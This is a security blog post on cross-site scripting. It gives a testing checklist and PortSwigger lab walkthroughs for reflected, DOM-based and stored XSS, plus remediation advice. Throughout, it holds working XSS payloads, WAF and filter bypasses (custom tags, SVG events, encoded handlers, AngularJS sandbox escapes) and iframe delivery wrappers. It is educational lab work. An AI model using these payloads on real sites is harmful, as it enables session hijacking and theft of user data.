```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.


{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

## Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

## 1.Reflected XSS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Labs (Reflected XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

  _**1. Reflected XSS into attribute with angle brackets HTML-encoded**_
  The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
  <details markdown="1">
    <summary>Click me to expand the process</summary>
  
  1. Enter random input (e.g., test123) in the user input (URL query)
     ~~~
     URL: https[://]web-security-academy[.]net/?search=test123
     ~~~
  
  2. Utilize search function in inspection tab, and search for input (e.g., test123)
     ~~~
     Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
     ~~~
  
  3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
     ~~~
     URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
     Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
     ~~~

     {: .box-note}
     **Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the \<input\> tag.

  4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.

  </details>
  -

  _**2. Reflected XSS into a JavaScript string with angle brackets HTML encoded**_
  In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I break out of the string and triggers the `prompt()` function, to demonstrate the vulnerability.
  <details markdown="1">
    <summary>Click me to expand the process</summary>
  
  1. I enter random input (e.g., test) in the user input (search bar)
  
  2. Utilize search function in inspection tab, and search for input (e.g., test). I find that the input is directly past into the function.
     ```javascript
     var searchTerms = 'test';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     ```
  
  3. Now I learn that my input is inside the single quote, I try breaking out the single quote with:
     ~~~
     Input: '-prompt("TestXSS")-' # breaks the single quote
           or \\'-prompt("TestXSS")// # If single quotes are escaped
     ~~~
  
  4. The message pops up after I send the query, which confirms that this instance is vulnerable to XSS. <br> Just to double-check, I pull out the script from the inspection tab.
     ```javascript
     var searchTerms = ''-prompt("TestXSS")-'';
     document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     ```
  </details>
  -

  _**3. Reflected DOM XSS**_
  In this instance, a script on the page processes reflected data (user input) with `eval()` without any sanitization and ultimately writes it to a dangerous sink.
  <details markdown="1">
    <summary>Click me to expand the process</summary>

  1. First, I find the script used in the web application under the Network tab on the Inspection page.
     - The `xhr.open` method sends a GET request (with user input retrieved from `path + window.location.search`) and fetches data from the server using `XMLHttpRequest`.
     - Then it parses the JSON response (`this.responseText`) with `eval()`.
     - Lastly, it dynamically create and display search results (`displaySearchResults`) in the HTML DOM.

     ```javascript
     var xhr = new XMLHttpRequest();
     xhr.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {
          eval('var searchResultsObj = ' + this.responseText);
          displaySearchResults(searchResultsObj);
          }
     };
     xhr.open("GET", path + window.location.search);
     xhr.send();
     ```
   
  2. I send a test request and intercept the response using Burp Proxy.

     ```json
     {"results":[],"searchTerm":"test"}
     ```

  3. Because the script uses `eval()` to process the response, I can insert the `prompt()` function (see JSON Values in the [JSON Syntax](https://www.w3schools.com/js/js_json_syntax.asp))."  
     Now that I know the JSON structure, I create an input to break out of the expected structure in Burp Repeater.

  4. In the response to my first payload attempt `test\"-prompt()}//`, the double quote is escaped by the application, so I add an extra backslash (`\`) to bypass it.
     ~~~
     1-st_Request: ?search=test"-prompt()}//
     Response: {"results":[],"searchTerm":"test\"-prompt()}//"}
     ~~~
     ~~~
     2-nd_Request: ?search=test\"-prompt()}//
     Response: {"results":[],"searchTerm":"test\\"-prompt()}//"}
     ~~~

     {: .box-note}
     **Note:** The [Arithmetic Operators](https://www.w3schools.com/programming/prog_operators_arithmetic.php#gsc.tab=0) (`-`) forces `prompt()` to be parsed and executed as part of an expression. And ensuring it is executed immediately, not just ignored.
     And the `//` comments out whatever is after it.

  </details>
  -

  _**4. Reflected XSS into HTML context with most tags and attributes blocked**_
  In this instance, the `/?search` parameter is being reflected into the page as HTML without proper contextual encoding or sanitization, and the WAF’s tag/attribute filtering is insufficient, so I bypass the filter and executes `prompt()`.

  <details markdown="1">
    <summary>Click me to expand the process</summary>

  1. After using general XSS testing payloads, I learn that the WAF is blocking some HTML tags to prevent common XSS.
     ~~~
     Payload: <img src="0" onerror="prompt()">
     Respond: "Tag is not allowed"
     ~~~

  2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<body>` is not blocked by the WAF.
     ~~~
     Burp Intruder:
     GET /?search=<Payload Position> HTTP/2
     ~~~

  3. After enclosing payloads within the `<body>` tag, I learn that the WAF is also blocking some attributes.
     ~~~
     Payload: <body onload="prompt()">
     Respond: "Attributes is not allowed"
     ~~~

  4. Repeating step 2, but this time I copy the events from the XSS cheat sheet. I got some events that comes back with 200 OK. 
     ~~~
     Burp Intruder:
     GET /?search=<body%20<Payload Position>=prompt()>
     ~~~

  5. To make the exploitation more realistic, after going through the unfiltered event attributes:
     - I used an `<iframe>` to embeds this vulnerable webpage (`src="https[://]vulnerable[.]com/`).
     - The query parameter `/?search` then load the URL-encoded payload `%22%3E%3Cbody+onresize=prompt()%3E`
     - [this.style.width](https://www.w3schools.com/jsref/prop_style_width.asp) to adjust the iframe’s size, which will trigger the `onresize` event and `prompt()`.
     ~~~
     <iframe src="https[://]vulnerable[.]com/?search=%22%3E%3Cbody+onresize=prompt()%3E" onload=this.style.height='88px'></iframe>
     ~~~

  6. Because I bypass the WAF filter with non-filterd tag and attribution, the function `prompt()` will be executed once someone clicks on the link.

  **Suggestion**: Remediate by [treating user input strictly as data](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#xss-defense-philosophy) (encode/escape for the HTML context or render search terms as text nodes, never raw HTML), apply a server‑side allowlist sanitizer (or a vetted library such as [DOMPurify](https://www.npmjs.com/package/dompurify) when sanitization is required), enforce a strong [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline event handlers/scripts, and [harden WAF normalization/rules](https://docs.oracle.com/en-us/iaas/Content/WAF/Protections/protections_management.htm) to catch decoded event-attribute payloads.

  </details>
  -

  _**5. Reflected XSS into HTML context with all tags blocked except custom ones**_
  In this instance, I find that the WAF blocks standard tags but allows custom element names. Because browser will parse custom tags as valid elements (`<cust-foo>`) and allow attributes (`onfocus`), I bypass the WAF and execute a prompt with custom tag, and other components to simulate the exploit in a real‑world scenario.

  <details markdown="1">
    <summary>Click me to expand the process</summary>

  1. I started by testing the input form, and the response indicated that the tag was blocked.
     ~~~
     Request: GET /?search=<script>test</script>
     Response: "Tag is not allowed"
     ~~~

  2. Then I tried using a custom tag (`<cust-foo>`); this time, I did not receive any error. This confirms that the WAF does not block [custom tag](https://matthewjamestaylor.com/custom-tags).
     ~~~
     Request: GET /?search=<cust-foo>test</cust-foo>
     Response: HTTP/2 200 OK
     ~~~

  3. The browser treats custom tags (`<cust-foo>`) as valid HTML elements and parses their attributes and event handlers (`onmouseover`), which execute JavaScript when triggered by moving the cursor over a specific spot.
     ~~~
     Request: GET /?search=<cust-foo onmouseover='prompt("xss")'>Move your mouse here</cust-foo>
     Response: A pop-up "xss"
     ~~~

  4. To make the exploitation more realistic, I used custom tags with some components to create an .html file. As soon as a user opens it, they woulbe be redirected to the designated page and the prompt was executed:
     - `window.location.assign()`: Redirect the user's browser to a new URL while keeping the current page in the session history (Back button available).
     - `id`: Gives the element a unique identifier in the DOM (e.g., a1).
     - `tabindex`: Makes the element focusable, which can be used with `onfocus` events.
     - `onfocus`: The JavaScript will be triggered when the element (`id`) receives focus.
     - `#a1`: Call out and focus on the element `a1`.

     ```javascript
     <script>
     window.location.assign("https[://]vulnerable[.]com/?search=<cust-tag id=a1 tabindex=1 onfocus='prompt("I am focusable")'>#a1")
     </script>
     ```

  **Suggestion**: Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) on output that must contain HTML (server-side). Configure [allowlists](https://help.ivanti.com/ht/help/en_US/ISM/2025/admin-user/Content/Configure/SetUpWizard/Configure%20Allowed%20Tags%20and%20Attribute.htm), only permit required tags and attributes, and explicitly exclude all event handler attributes (e.g., on*). Apply the appropriate [encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) based on where the data will be used (body, attribute, JavaScript string, URL, CSS), and do not rely on a single generic encoding for all contexts. Prefer [framework helpers](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#framework-security) and templating engines that provide automatic, correct output escaping rather than hand‑rolling your own escaping logic. Remove unnecessary HTML rendering of user‑supplied content whenever possible. If a field is a search query or otherwise simple text, return it as plain text (properly escaped) instead of rendering it as HTML with tags.
  
  </details>
  -

  _**6. Reflected XSS with some SVG markup allowed**_
  In this instance, I discovered a reflected XSS vector that bypasses the WAF by using certain unfiltered tags and event. By inserting those, I was able to execute JavaScript, demonstrating a reflected XSS bypass through SVG + SMIL animation events.

  <details markdown="1">
    <summary>Click me to expand the process</summary>

  1. I started by testing the input form, and the response indicated that the tag was blocked.
     ~~~
     Request: GET /?search=<script>prompt()</script>
     Response: "Tag is not allowed"
     ~~~

  2.  To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<animatetransform>`, `<image>`, `<svg>`, `<title>` are not blocked by the WAF.
     ~~~
     Burp Intruder:
     GET /?search=<Payload Position> HTTP/1.1
     ~~~

  4. Next, to find out which event is not filtered. I repeated step 2 but copied the events from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). I use `<image>` as example since I know it is not filtered, then I received only `onbegin` events that returned 200 OK.
     ~~~
     Burp Intruder:
     GET /?search=<image+src="x"+<Payload Position>=1> HTTP/1.1
     ~~~

  5. After some [researches](https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event, "SVGAnimationElement: beginEvent event"), I learned that `<svg>` and `<animatetransform>` can be used with `onbegin`. To test it out, I inserted `prompt()`, and the application responded with a pop‑up window containing my text, which proves that I bypassed the WAF's filters and executed a test script.
     ~~~
     <svg><animatetransform onbegin='prompt("Is this vulnerable to XSS?")'>
     ~~~
   
  **Suggestion**: Treat any HTML or SVG in user input as untrusted. Ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied. If you must allow HTML/SVG, sanitize server‑side with a library that understands and safely handles SVG (e.g., [DOMPurify](https://www.npmjs.com/package/dompurify)). Deploy a strict [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP) that avoids unsafe-inline and blocks inline script execution and data:/javascript: URLs (use script-src 'self' plus nonces/hashes if inline scripts are required).

  </details>
  -

  _**7. Reflected XSS in canonical link tag**_
In this instance, I discovered that untrusted input from the URL query string is reflected into canonical link tag in the page source. By injecting [accesskey](https://www.w3schools.com/jsref/prop_html_accesskey.asp, "HTML DOM Element accessKey") attribute,  I was able to prove code execution in the page context after pressing the keystroke triggered JavaScript.

  <details markdown="1">
    <summary>Click me to expand the process</summary>

  1. I opened the Inspector and found the canonical link in the source code.
     ~~~
     <link rel="canonical" href="https://web-security-academy.net/">
     ~~~

  2. I inserted a test string (`?test`) into the URL and saw my input rendered directly in the canonical link.
     ~~~
     <link rel="canonical" href="https[://]web-security-academy[.]net/?test">
     ~~~

  3. I then added an `accesskey` attribute to the `<link>` tag, and when the designated key was pressed it triggered the `onclick` event. The results showed:
     - Spaces in my input were encoded (`%20`) in the URL, but they were rendered as extra encoded spaces (` %20`) in the source code.
     - A single quotes were encoded (`%27`) in the URL, but they rendered as double quotes in the source code.
     ~~~
     Request: /?test' accesskey='x' onclick='prompt(test)
     Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" %20accesskey="x" %20onclick="prompt(test)">
     ~~~

  4. To bypass this, I removed the spaces from my input. After pressing Ctrl+Alt+X, a popup displayed my message.
     ~~~
     Request: /?test'accesskey='x'onclick='prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)
     Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" accesskey="x" onclick="prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)">
     ~~~

  **Suggestion**: Don't reflect user input directly into HTML, ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied. [Sanitize & validate input](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation), if input used as a URL, validate against an allow-list of permitted patterns. Use [DOM methods](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html#rule-6-populate-the-dom-using-safe-javascript-functions-or-properties) to create and manage elements, attributes, and text nodes safely. Add/strengthen [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP). Lastly, use [HTTP security headers](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html#security-headers).

  </details>
  -

  _**8. Reflected XSS into a JavaScript string with single quote and backslash escaped**_
  In this instance, I discover a XSS vulnerability in the search tracking code. The application inserts user input directly into a JavaScript single-quoted string and escapes single quotes with a backslash, but it does not prevent breaking out of the surrounding script context (angle bracket > not escaped). I terminate the `<script>` tag and injecting a new `<script>` block.

  <details markdown="1">
    <summary>Click me to expand the process</summary>

  1. I start by testing the input (`test_input`) to see where it is rendered in the source code, then I find my input is in a search function.

     ```javascript
     <script>
       var searchTerms = 'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  2. To test whether I can break out of the single quote (`'`), I try entering a single quote, but it is escaped with a backslash (`'\`).

     ```javascript
     <script>
       var searchTerms = '\'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  3. I try to escape the backslash (`\\'`), but it doesn’t work.

     ```javascript
     <script>
       var searchTerms = '\\\'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  4. Then I discover that the angle bracket isn’t escaped, so I close the existing tag with `</script>` and insert a new one `<script>prompt();</script>`. A popup then displays my message.

     ```javascript
     <script>
       var searchTerms = '</script><script>prompt("Am I vulnerable to XSS");</script>
       ';document.write('
     ```
   
  **Suggestion**: Validate and sanitize user input on client side to reject or clean inputs containing malicious characters or script tags. When inserting user input into JS strings, use [output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) that safely escapes all special characters that could break the context, not just single quotes and backslashes. Don't place variables into [dangerous contexts](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#dangerous-contexts) as even with output encoding. Implement [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that limits the sources and inline script execution. 

  </details>
  -

  _**9. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**_
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.


</details>

## 2.Dom-Based XSS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

### Labs (Dom-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

_**1. DOM-based XSS in document.write sink using source location.search**_
The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
  
1. Enter random input (e.g., 123456) in the user input (URL query)
  ~~~
  https[://]web-security-academy.net/?search=123456
  ~~~
  
2. Right-click on the webpage and open the inspection tab
  
3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
  ~~~
  Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
  ~~~
  
4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
  ~~~
  URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
  Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
          <script src="x" onerror="javascript:alert('XSS')"></script>
  ~~~

</details>
-

_**2. DOM XSS in innerHTML sink using source location.search**_
The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
  
1. Enter random input (e.g., 123456) in the user input (URL query)
  ~~~
  https[://]web-security-academy.net/?search=123456
  ~~~
  
2. Right-click on the webpage and open the inspection tab
  
3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
  ~~~
  Result: <span id="searchMessage">123456</span>
  ~~~
  
4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
  ~~~
  URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
  Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
  ~~~
  
</details>
-
  
_**3. DOM XSS in jQuery anchor href attribute sink using location.search source**_
In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
  ```javascript
  $(function() {  
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));  
    });
  ```
  
2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
  ~~~
  URL: https[://]web-security-academy[.]net/feedback?returnPath=/
  ~~~
  
3. Insert the payload into the `returnPath` query parameter.
  ~~~
  URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
  Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
  ~~~
  
</details>
-

_**6. DOM XSS in jQuery selector sink using a hashchange event**_
There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
  ```javascript
  $(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
    });
  ```
  
2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
  ~~~
  URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
  ~~~

3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
  ~~~
  URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
  ~~~

  {: .box-note}
  **Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.
  
</details>
-

_**7. DOM XSS in document.write sink using source location.search inside a select element**_
This instance contains a DOM-based XSS vulnerability in the stock checker functionality. It leverages the `document.write` function to output data to the page, using data from `location.search` that user can control through the website URL. The input data is between the `<option>` tag, I break out of it and calls the `prompt` function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Firstly, I discover the function in the inspection tab (`right-click on the webpage > inspect`).  
   And I learn that the script builds a `<select name="storeId">` dropdown by reading a `storeId` query parameter from the URL and, if present, adding it as the selected `<option>` before adding the three hard-coded stores (skipping any duplicate).  
   It uses `document.write` with the raw URL value, so unescaped input could be reflected into the page; creating elements and setting textContent/value.
   
   ```javascript
   var stores = ["London", "Paris", "Milan"];
   var store = (new URLSearchParams(window.location.search)).get('storeId');
   document.write('<select name="storeId">');
   if(store) {
       document.write('<option selected>' + store + '</option>');
   }

   for(var i = 0; i < stores.length; i++) {
       if(stores[i] === store) {
           continue;
       }
       document.write('<option>' + stores[i] + '</option>');
   }

   document.write('</select>');
   ```

2. After discovering that the function takes user input in the `storeId` parameter, I add the `storeId` parameter after the original `productId` parameter with a `&`. I then send a test input (test) to see the application's response. As expected, I am able to add a new selected `<option>`.
   ~~~
   URL: https[://]web-security-academy[.]net/product?productId=2&storeId=test
   Result:
   <select name="storeId">
     <option selected>test</option> # I create this option by inserting the parameter and value in the URL.
     <option>London</option>
     <option>Paris</option>
     <option>Milan</option>
   ~~~
  
3. Remember this syntax `document.write('<option>' + stores[i] + '</option>');` from the function. What I can do is close the first `<option>` tag, inject new HTML tags or event attributes, and then open another `<option>` tag. I try injecting a couple of new HTML tags, and both work. <br>Now, I can confirm that the stock search query function on this web application is vulnerable to XSS.
   ~~~
   Payload-1: storeId=test</option><iframe src="javascript:prompt('work?');"></iframe><option>
   Payload-2: storeId=test</option><script>prompt('work?')</script><option>
   ~~~

</details>
-

_**8. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**_
This instance contains a DOM-based XSS vulnerability in an `AngularJS` expression within the search functionality. I inject a method (e.g. `$on`/`$eval`) that is available in the current scope to bypass AngularJS's security filter, append the `.constructor` property to create a `Function` object (`function(user_input)`), and then call it with `()` to execute the created function.

{: .box-note}
**Note:** Refer to [AngularJS DOM XSS Attack](https://www.youtube.com/watch?v=QpQp2JLn6JA) for more details walkthrough

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. After did some researches ([AngularJS - Escaping the Expression Sandbox](https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss), [Function() constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function), [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor), ) I come up with a couple of different payloads to pybass the security filter.
  ~~~
  Payload-1: \{\{$eval.constructor(prompt('AngularJS_xss'))()\}\}
  Payload-2: \{\{$on.constructor('prompt("AngularJS_xss")')()\}\}
  ~~~
  
</details>
-


</details>

## 3.Store-Based XSS
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs (Store-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

_**1. Stored XSS into anchor href attribute with double quotes HTML-encoded**_
This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

2. I use the search function in the inspection tab to look for the website I enter. And I find:
   ~~~
   Result: <a id="author" href="Website.com">Name</a>
   ~~~

3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
   ~~~
   Website: javascript:alert('Zebra!')
   Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
   ~~~
   
</details>
-

_**2. Stored DOM XSS**_
In this instance, the comment rendering is vulnerable to stored DOM‑based XSS because `escape()` only replaces the first `<`, `>` so I bypass it which leaves later tags unescaped, allowing arbitrary script execution when the page inserts comments into the DOM.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. Firstly, I look into the script used in the web application under the Network tab on the Inspection page. And I find there is an escape function using [replace()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

   ```javascript
    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
   ```

   {: .box-note}
   **Note:** A string pattern will only be replaced once. To perform a global search and replace, use a regex with the g flag, or use replaceAll() instead.

2. Now that I know only the first set of angle brackets is escaped and anything after that isn't, I craft my payload as:
   ~~~
   Payload: <><img src="x" onerror="prompt('I am escaped!')">
   Rendered:
   <p>
     &lt;&gt;
     <img src="x" onerror="prompt('I am escaped!')">
   </p>
